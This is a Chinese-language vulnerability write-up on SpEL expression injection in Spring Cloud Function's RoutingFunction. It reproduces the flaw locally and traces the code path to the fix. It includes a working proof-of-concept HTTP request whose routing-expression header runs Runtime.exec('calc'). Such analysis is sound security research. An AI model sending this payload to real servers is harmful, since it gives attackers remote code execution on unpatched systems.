 ```yaml
---
layout: mypost
title: Spring Cloud Function SPEL表达式注入漏洞
categories: [漏洞分析]

---
```


### 一：漏洞简介

Spring Cloud 中的 serveless框架 Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的spring.cloud.function.routing-expression参数作为 Spel 表达式进行处理，造成Spel表达式注入，攻击者可通过该漏洞执行任意代码。

### 二：影响版本

3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

### 三：漏洞复现

这里使用https://github.com/spring-cloud/spring-cloud-function中的项目进行复现

将该项目clone下来后在idea中导入这个项目：spring-cloud-function-3.1.6\spring-cloud-function-samples\function-sample-pojo

导入后等待idea下载完成依赖之后直接启动项目，启动完成后访问:127.0.0.1:8080出现以下页面代表启动成功：

![Spring_Cloud_Function_SPEL表达式注入_1.png](Spring_Cloud_Function_SPEL表达式注入_1.png)

然后我们直接上burp

POC

```
POST /functionRouter HTTP/1.1
Host: 192.168.248.6:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("calc")
Content-Length: 7

hhhhhhh
```

使用burp直接发送poc

![Spring_Cloud_Function_SPEL表达式注入_2.png](Spring_Cloud_Function_SPEL表达式注入_2.png)

可以看到靶机成功弹出计算器

![Spring_Cloud_Function_SPEL表达式注入_3.png](Spring_Cloud_Function_SPEL表达式注入_3.png)



### 四：漏洞分析

在Spring cloud官网GitHub上给出了修复commit

https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

![Spring_Cloud_Function_SPEL表达式注入_4.png](Spring_Cloud_Function_SPEL表达式注入_4.png)

并且官方还给出了poc

![Spring_Cloud_Function_SPEL表达式注入_5.png](Spring_Cloud_Function_SPEL表达式注入_5.png)

简单来说就是在请求头中添加一个spring.cloud.function.routing-expression参数，Spring Cloud Function会直接将参数值带入SPEL中查询导致SPEL注入。

那么，这个spring.cloud.function.routing-expression参数有啥用呢？这里借鉴[神风](https://www.cnblogs.com/wh4am1/p/16062306.html)大佬的一段话：

```
漏洞是出在SpringCloud Function的RoutingFunction功能上，其功能的目的本身就是为了微服务应运而生的，可以直接通过HTTP请求与单个的函数进行交互，同时为spring.cloud.function.definition参数提供您要调用的函数的名称。
例如：
"
POST /functionRouter HTTP/1.1
Host: localhost:8080
spring.cloud.function.definition: reverseString
Content-Type: text/plain
Content-Length: 3

abc
"
其结果就会在页面上输出cba，因此我们只需要在header头上指定要调用的函数名称就可以对其进行调用。
```

我们这里根据poc来跟一下它的利用过程：

发送poc后程序会对读取我们输入的内容，首先来到org.springframework.cloud.function.web.util.FunctionWebRequestProcessingHelper#processRequest方法，程序会判断当前请求是否为RoutingFunction，并将我们提交的请求头和请求体内容编译成Message并且传入FunctionInvocationWrapper的apply方法中：

![Spring_Cloud_Function_SPEL表达式注入_6.png](Spring_Cloud_Function_SPEL表达式注入_6.png)

我们跟入apply方法发现该方法又将参数信息传入doApply方法：

![Spring_Cloud_Function_SPEL表达式注入_7.png](Spring_Cloud_Function_SPEL表达式注入_7.png)

继续跟入doApply方法：

![Spring_Cloud_Function_SPEL表达式注入_8.png](Spring_Cloud_Function_SPEL表达式注入_8.png)

这里进行了一个简单的判断，然后执行到else，我们跟进RoutingFunction的apply方法

![Spring_Cloud_Function_SPEL表达式注入_9.png](Spring_Cloud_Function_SPEL表达式注入_9.png)

apply方法最后会将数据return给org.springframework.cloud.function.context.config.RoutingFunction的route方法，route方法会判断请求头中有没有spring.cloud.function.routing-expression参数

![Spring_Cloud_Function_SPEL表达式注入_10.png](Spring_Cloud_Function_SPEL表达式注入_10.png)

因为我们有该参数，所以程序进入到this.functionFromExpression()方法：

![Spring_Cloud_Function_SPEL表达式注入_11.png](Spring_Cloud_Function_SPEL表达式注入_11.png)

最终由SpelExpressionParser来解析，导致Spel表达式注入。



### 五：参考链接

https://www.cnblogs.com/wh4am1/p/16062306.html




